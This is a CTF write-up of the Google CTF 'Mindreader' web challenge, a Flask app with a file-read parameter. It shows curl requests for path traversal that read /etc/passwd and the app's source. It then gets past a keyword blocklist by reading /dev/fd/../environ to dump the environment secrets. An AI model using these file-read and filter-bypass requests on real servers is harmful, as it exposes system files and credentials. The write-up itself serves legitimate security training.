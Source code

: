 ## Mindreader
### Description
Category: Miscellaneous  
Difficulty: Easy
```
Can you read my mind?

Challenge running at https://mindreader.web.ctfcompetition.com/
```
### Exploration
Visiting the challenge URL produces a web page:
```html
<html>
<head>
</head>
<body>
    <p>Hello, what do you want to read?</p>
    <form method="GET">
        <input type="text" name="f">
        <input type="submit" value="Read">
    </form>
</body>
</html>
```
### File reading
We guess that `f` stands for `file` and this script will read file contents.  
Reading `flag` and `flag.txt` yielded nothing.

Since this is an easy challenge we also guess that it's vulnerable to directory traversal.  
Fetching https://mindreader.web.ctfcompetition.com/?f=../../../../../etc/passwd confirmed this:
```
notcake@notcake:~/googlectf$ curl https://mindreader.web.ctfcompetition.com/?f=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```
The flag was also not here.  
It turned out that https://mindreader.web.ctfcompetition.com/?f=/etc/passwd also worked.

### Reading the page's source
After trying to read `index.php` failed and many failed attempts to work out what was running the web server (nothing in `/proc` could be read), the hint for Secret Notes helped: `Hint: pyc`
```python
notcake@notcake:~/googlectf$ curl https://mindreader.web.ctfcompetition.com/?f=main.py
from flask import Flask, request, abort
import re
import os
import logging

assert os.environ['FLAG']

app = Flask(__name__)

INDEX = open('index.html').read()

HALL_OF_SHAME = []

@app.route('/')
def index():
    for ip in request.headers.get('X-Forwarded-For', '').split(','):
        ip = ip.strip().lower()
        if ip in HALL_OF_SHAME:
            abort(403)

    if 'f' in request.args:
        try:
            f = request.args['f']
            if re.search(r'proc|random|zero|stdout|stderr', f):
                abort(403)
            elif '\x00' in f:
                abort(404)
            return open(f).read(4096)
        except IOError:
            abort(404)
    else:
        return INDEX
```
From this it can be seen that:
- The flag is stored in an environment variable, `FLAG`
- `/proc` is blocked but the script goes to great lengths to not block `/dev`

`/proc/self/environ` can't be read directly, but something under `/dev` might help.
```
notcake@notcake:~/googlectf$ ls -al /dev
...
crw-rw----  1 root video    29,   0 Jun  3 23:07 fb0
lrwxrwxrwx  1 root root          13 Jun  3 23:07 fd -> /proc/self/fd
crw-rw-rw-  1 root root      1,   7 Jun  3 23:07 full
...
```

### Solution
Reading `/dev/fd/../environ` works:
```
notcake@notcake:~/googlectf$ curl https://mindreader.web.ctfcompetition.com/?f=/dev/fd/../environ
GAE_MEMORY_MB=614HOSTNAME=2df8b7058b79GAE_INSTANCE=aef-mindreader--sss6w3uqjfrcntmn-20170618t144344-lmkjPORT=8080HOME=/rootPYTHONUNBUFFERED=1GAE_SERVICE=mindreader-sss6w3uqjfrcntmnPATH=/env/bin:/opt/python3.5/bin:/opt/python3.6/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binGAE_DEPLOYMENT_ID=402060873983974243LANG=C.UTF-8DEBIAN_FRONTEND=noninteractiveGCLOUD_PROJECT=ctf-web-kuqo48dGOOGLE_CLOUD_PROJECT=ctf-web-kuqo48dCHALLENGE_NAME=mindreaderVIRTUAL_ENV=/envPWD=/home/vmagent/appGAE_VERSION=20170618t144344FLAG=CTF{ee02d9243ed6dfcf83b8d520af8502e1}
```
And the flag is `CTF{ee02d9243ed6dfcf83b8d520af8502e1}`.
